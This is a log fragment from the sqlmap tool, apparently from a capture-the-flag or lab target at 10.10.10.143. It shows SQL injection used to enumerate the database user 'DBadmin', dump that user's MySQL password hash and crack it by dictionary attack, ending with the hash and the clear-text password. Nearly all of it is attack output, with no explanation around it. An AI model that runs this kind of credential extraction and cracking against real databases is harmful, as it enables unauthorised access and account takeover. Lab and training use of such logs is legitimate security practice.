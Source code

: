     [15:06:00] [INFO] retrieved: ''DBadmin'@'localhost''
    [15:06:00] [INFO] retrieved: ''DBadmin'@'localhost''
    [15:06:00] [INFO] retrieved: ''DBadmin'@'localhost''
    [15:06:00] [INFO] retrieved: ''DBadmin'@'localhost''
    [15:06:00] [INFO] retrieved: ''DBadmin'@'localhost''
    [15:06:01] [INFO] retrieved: ''DBadmin'@'localhost''
    [15:06:01] [INFO] retrieved: ''DBadmin'@'localhost''
    [15:06:01] [INFO] retrieved: ''DBadmin'@'localhost''
    [15:06:01] [INFO] retrieved: ''DBadmin'@'localhost''
    [15:06:01] [INFO] retrieved: ''DBadmin'@'localhost''
    [15:06:01] [INFO] retrieved: ''DBadmin'@'localhost''
    [15:06:01] [INFO] retrieved: ''DBadmin'@'localhost''
    [15:06:01] [INFO] retrieved: ''DBadmin'@'localhost''
    [15:06:01] [INFO] retrieved: ''DBadmin'@'localhost''
    [15:06:01] [INFO] retrieved: ''DBadmin'@'localhost''
    [15:06:01] [INFO] retrieved: ''DBadmin'@'localhost''
    [15:06:01] [INFO] retrieved: ''DBadmin'@'localhost''
    [15:06:01] [INFO] retrieved: ''DBadmin'@'localhost''
    [15:06:01] [INFO] retrieved: ''DBadmin'@'localhost''
    [15:06:01] [INFO] retrieved: ''DBadmin'@'localhost''
    [15:06:01] [INFO] retrieved: ''DBadmin'@'localhost''
    [15:06:01] [INFO] retrieved: ''DBadmin'@'localhost''
    [15:06:01] [INFO] retrieved: ''DBadmin'@'localhost''
    [15:06:01] [INFO] retrieved: ''DBadmin'@'localhost''
    [15:06:01] [INFO] retrieved: ''DBadmin'@'localhost''
    database management system users [1]:
    [*] 'DBadmin'@'localhost'
    
    [15:06:01] [INFO] fetching database users password hashes
    [15:06:02] [INFO] used SQL query returns 1 entry
    do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] N
    do you want to perform a dictionary-based attack against retrieved password hashes? [Y/n/q] Y
    [15:06:02] [INFO] using hash method 'mysql_passwd'
    what dictionary do you want to use?
    [1] default dictionary file '/usr/share/sqlmap/txt/wordlist.zip' (press Enter)
    [2] custom dictionary file
    [3] file with list of dictionary files
    > 1
    [15:06:02] [INFO] using default dictionary
    do you want to use common password suffixes? (slow!) [y/N] N
    [15:06:02] [INFO] starting dictionary-based cracking (mysql_passwd)
    [15:06:02] [INFO] starting 3 processes
    [15:06:08] [INFO] cracked password 'imissyou' for user 'DBadmin'
    database management system users password hashes:
    [*] DBadmin [1]:
        password hash: *2D2B7A5E4E637B8FBA1D17F40318F277D29964D0
        clear-text password: imissyou
    
    [15:06:17] [INFO] fetched data logged to text files under '/root/.sqlmap/output/10.10.10.143'
    
    [*] ending @ 15:06:17 /2019-06-28/
    